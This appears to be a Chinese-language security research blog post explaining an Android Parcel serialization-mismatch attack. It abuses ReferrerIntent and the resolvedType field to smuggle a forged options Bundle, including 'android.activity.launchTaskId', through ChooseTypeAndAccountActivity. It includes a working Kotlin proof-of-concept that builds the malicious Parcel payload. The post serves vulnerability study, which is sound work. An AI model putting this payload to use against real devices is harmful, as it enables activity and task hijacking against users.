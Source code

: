 ```yaml
---
layout: post
title: 'Creator Mismatch 续'
published: true
---
```


## ReferrerIntent

上文中使用了 `LabeledIntent` 作为 Intent 的子类来完成序列化不对称攻击, 里面说明了不选择 `ReferrerIntent` 的理由, 因为 `ReferrerIntent` 只多出一个 String16 的字段是我们可以控制的, 如下

```java
    public void writeToParcel(Parcel dest, int parcelableFlags) {
        super.writeToParcel(dest, parcelableFlags); // Intent
        dest.writeString(mReferrer); // 多出一个 String16
    }
```

和 `IActivityTaskManager.startActivity` 的参数做一个对比

```java
    Intent _arg3 = data.readTypedObject(android.content.Intent.CREATOR); // ReferrerIntent.mIntent
    java.lang.String resolvedType = data.readString(); // ReferrerIntent.mReferrer
    android.os.IBinder resultTo = data.readStrongBinder(); // resolvedType
    java.lang.String resultWho = data.readString(); // ...
    int requestCode = data.readInt();
    int flags = data.readInt();
    android.app.ProfilerInfo profilerInfo = data.readTypedObject(android.app.ProfilerInfo.CREATOR);
    android.os.Bundle options = data.readTypedObject(android.os.Bundle.CREATOR);
```

这个 String16 马上就被 `resolvedType` 消耗掉, 导致只能利用 `ChooseTypeAndAccountActivity` 自己提供的参数的错位来完成利用, 但是跟一下源码你会发现,其实 `resolvedTyped` 也刚好是我们可以控制的,如下

```java
// Instrumentation.execStartActivity
int result = ActivityTaskManager.getService().startActivity(whoThread,
                who.getOpPackageName(), who.getAttributionTag(), intent,
                intent.resolveTypeIfNeeded(who.getContentResolver()), // ⬅️ resolvedType
                token,
                target != null ? target.mEmbeddedID : null, requestCode, 0, null, options);
```

```java
// Intent.resolveTypeIfNeeded
public @Nullable String resolveTypeIfNeeded(@NonNull ContentResolver resolver) {
      // Match logic in PackageManagerService#applyEnforceIntentFilterMatching(...)
      if (mComponent != null && (Process.myUid() == Process.ROOT_UID
              || Process.myUid() == Process.SYSTEM_UID
              || mComponent.getPackageName().equals(ActivityThread.currentPackageName()))) {
          return mType; // ⬅️
      }
      return resolveType(resolver); // ⬇️
}

public @Nullable String resolveType(@NonNull ContentResolver resolver) {
     if (mType != null) {
         return mType; // ⬅️
     }
     if (mData != null) {
         if ("content".equals(mData.getScheme())) {
             return resolver.getType(mData);
         }
     }
     return null;
}
```

也就是说 ChooseTypeAndAccountActivity 提供给 ActivityTaskManagerService 的 resolvedType 参数, 其实也可以从 Intent 参数里面获取的, 这样就可以把 payload 全部藏在 resolvedType (即 intent.mType)中, 由于只涉及修改一个 String16 字段,整个 payload 的构造更简单, 如下

```kotlin
   fun referrerIntent(): ReferrerIntent {
        val payload = Parcel.obtain().apply {
          writeInt(fixme(72)) //  -> string length, first part of binder

          // remain binder parts
          writeInt(2)
          writeInt(3)
          writeInt(4)
          writeInt(5)
          writeInt(6)

          writeString(null) // resultWho
          writeInt(0) // requestCode
          writeInt(0) // flags
          writeTypedObject(null, 0) // profiler info

          run {  // bundle
            writeInt(1) // typed object indicator
            writeInt(fixme(148)) // bundle back patch length
            writeInt(Const.BundleMagic)  // "BNDL"
            writeInt(2) // entry count
            writeString("android.activity.launchTaskId") // key 1
            writeValue(taskId) // value 1
            writeString("_") // key 2
            run { // value 2
              writeInt(Const.ValByteArray)
              writeInt(fixme(56)) // byte array length
              writeInt('@'.code) // 0
              writeInt(0) // String16 terminator and padding
            }
          }
        }
        payload.setDataPosition(0)
        val intent = intentFor<LoginActivity>().setType(payload.readString())
        return ReferrerIntent(intent, null)
      }
```

看一下效果

![Alt text](/assets/images/creator-mismatch-cont/tasks-before.png)

![Alt text](/assets/images/creator-mismatch-cont/tasks-after.png)

